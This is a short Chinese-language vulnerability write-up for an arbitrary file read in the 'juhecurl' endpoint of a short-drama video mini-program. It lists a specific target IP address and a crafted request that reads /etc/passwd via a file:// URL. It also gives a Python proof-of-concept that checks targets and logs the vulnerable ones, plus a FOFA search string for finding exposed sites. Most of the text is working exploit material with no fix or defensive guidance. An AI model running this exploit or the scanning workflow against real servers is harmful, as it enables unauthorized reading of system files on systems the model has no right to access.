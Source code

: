 ## 短剧影视小程序前台juhecurl任意文件读取漏洞

### 一、地址

```
https://50.19.84.130/
```

### 二、验证

抓包

![image-20240902183043992](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240902183043992.png)

### 三、存在漏洞

改包

```
GET /api/ems/juhecurl?url=file:///etc/passwd HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20240902183115368](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240902183115368.png)

### 四、POC

```
def poc(target):
    payload = "/api/ems/juhecurl?url=file:///etc/passwd"
    headers = {
        "Host": "127.0.0.1",
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "User-Agent": "Mozilla/5.0(WindowsNT10.0;Win64;x64)AppleWebKit/537.36(KHTML,likeGecko)Chrome/101.0.4951.54Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        "Accept-Encoding": "gzip,deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close"
    }
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.post(url=target+payload,verify=False,headers=headers,timeout=5)
            # print(res2.text)
            if "root" in res2.text:
                print(f"该[+]网站{target}存在任意文件读取漏洞")
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print(f"该网站{target}存在问题，请手工测试！！")
    except Exception as e:
        print(e)
```



### 五、资产搜索

```
fofa   ：     "/VwmRIfEYDH.php"
```





